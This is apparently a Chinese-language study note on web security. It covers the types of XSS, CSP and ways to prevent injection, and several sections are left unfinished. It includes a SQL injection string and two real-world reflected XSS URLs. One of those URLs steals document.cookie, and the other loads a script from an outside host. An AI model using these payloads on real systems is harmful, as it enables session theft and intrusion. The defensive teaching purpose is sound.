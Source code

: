 ```yaml
---
title: "Web Safe"
date: 2020-09-22T14:38:14+08:00
draft: false
---
```


web 安全领域中，常见的攻击方式，大概以下几种

- 跨站脚本
- 跨站伪造请求
- SQL 注入()
- 文件上传漏洞
- 分布式拒绝服务


```sql
SELECT uid,username FROM user WHERE username='plhwin'

-- 把plhwin 改成 plhwin';SHOW TABLES-- hack'
SELECT uid,username FROM user WHERE username='plhwin';SHOW TABLES-- hack'
```


##  客户端安全

####  跨站脚本攻击 (xss: Cross-Site Scripting)

Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全。

XSS 的本质是：恶意代码未经过滤，与网站正常的代码混在一起；浏览器无法分辨哪些脚本是可信的，导致恶意脚本被执行。

防范: 不仅仅是业务上的“用户的 UGC 内容”可以进行注入，包括 URL 上的参数等都可以是攻击的来源。在处理输入时，以下内容都不可信：

- 来自用户的 UGC 信息
- 来自第三方的链接
- URL 参数
- POST 参数
- Referer （可能来自不可信的来源）
- Cookie （可能来自其他子域注入）

XSS 分类: 存储型、反射型和 DOM 型三种。

|类型      |存储区|插入点| 
|-|-|-|
|存储型 XSS|后端数据库|HTML| 
|反射型 XSS|URL|HTML| 
|DOM 型 XSS|后端数据库/前端存储/URL|前端 JavaScript|

存储区：恶意代码存放的位置。
插入点：由谁取得恶意代码，并插入到网页上。

存储型 XSS: 攻击者将恶意代码提交到目标网站的数据库中。用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器。用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。

反射型 XSS: 攻击者构造出特殊的 URL，其中包含恶意代码。用户打开带有恶意代码的 URL 时，网站服务端将恶意代码从 URL 中取出，拼接在 HTML 中返回给浏览器。用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。反射型 XSS 跟存储型 XSS 的区别是：存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。

反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等。POST 的内容也可以触发反射型 XSS，只不过其触发条件比较苛刻（需要构造表单提交页面，并引导用户点击），所以非常少见。

DOM 型 XSS: 攻击者构造出特殊的 URL，其中包含恶意代码。用户打开带有恶意代码的 URL。用户浏览器接收到响应后解析执行，前端 JavaScript 取出 URL 中的恶意代码并执行。恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

注意: DOM 型 XSS 跟前两种 XSS 的区别：DOM 型 XSS 攻击中，取出和执行恶意代码由浏览器端完成，属于前端 JavaScript 自身的安全漏洞，而其他两种 XSS 都属于服务端的安全漏洞。


#### XSS 攻击的预防

#### 服务端安全
- sql注入
- 文件上传漏洞
- 访问控制
- 应用层拒绝服务(分布式拒绝服务 doc攻击)


严格的 CSP 在 XSS 的防范中可以起到以下的作用：

禁止加载外域代码，防止复杂的攻击逻辑。
禁止外域提交，网站被攻击后，用户的数据不会泄露到外域。
禁止内联脚本执行（规则较严格，目前发现 GitHub 使用）。
禁止未授权的脚本执行（新特性，Google Map 移动版在使用）。
合理使用上报可以及时发现 XSS，利于尽快修复问题。


### 防范XSS攻击
- XSS 防范是后端 RD 的责任，后端 RD 应该在所有用户提交数据的接口，对敏感字符进行转义，才能进行下一步操作。
- 所有要插入到页面上的数据，都要通过一个敏感字符过滤函数的转义，过滤掉通用的敏感字符后，就可以插入到页面中

虽然很难通过技术手段完全避免 XSS，但我们可以总结以下原则减少漏洞的产生
- 利用模板引擎 开启模板引擎自带的 HTML 转义功能
- 避免内联事件 尽量不要使用 onLoad="onload('{{data}}')"、onClick="go('{{action}}')" 这种拼接内联事件的写法。在 JavaScript 中通过 .addEventlistener() 事件绑定会更安全。
- 避免拼接 HTML 前端采用拼接 HTML 的方法比较危险，如果框架允许，使用 createElement、setAttribute 之类的方法实现。或者采用比较成熟的渲染框架，如 Vue/React 等。
- 时刻保持警惕 在插入位置为 DOM 属性、链接等位置时，要打起精神，严加防范。
- 增加攻击难度，降低攻击后果 通过 CSP、输入长度配置、接口安全措施等方法，增加攻击的难度，降低攻击的后果。
- 主动检测和发现 可使用 XSS 攻击字符串和自动扫描工具寻找潜在的 XSS 漏洞。


### XSS 攻击案例

#### QQ 邮箱 m.exmail.qq.com 域名反射型 XSS 漏洞

攻击者发现 http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb 这个 URL 的参数 uin、domain 未经转义直接输出到 HTML 中。

于是攻击者构建出一个 URL，并引导用户去点击： 

http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb%26quot%3B%3Breturn+false%3B%26quot%3B%26lt%3B%2Fscript%26gt%3B%26lt%3Bscript%26gt%3Balert(document.cookie)%26lt%3B%2Fscript%26gt%3B

浏览器接收到响应后就会执行 alert(document.cookie)，攻击者通过 JavaScript 即可窃取当前用户在 QQ 邮箱域名下的 Cookie ，进而危害数据安全。


#### 新浪微博名人堂反射型 XSS 漏洞

攻击者发现 http://weibo.com/pub/star/g/xyyyd 这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：

http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：



## 跨站点请求伪造(csrf)


## 点击劫持
## html5 安全

### 参考链接 

- [Web前后端漏洞分析与防御](https://github.com/strawbreey/WebSafe-StepPitGuide)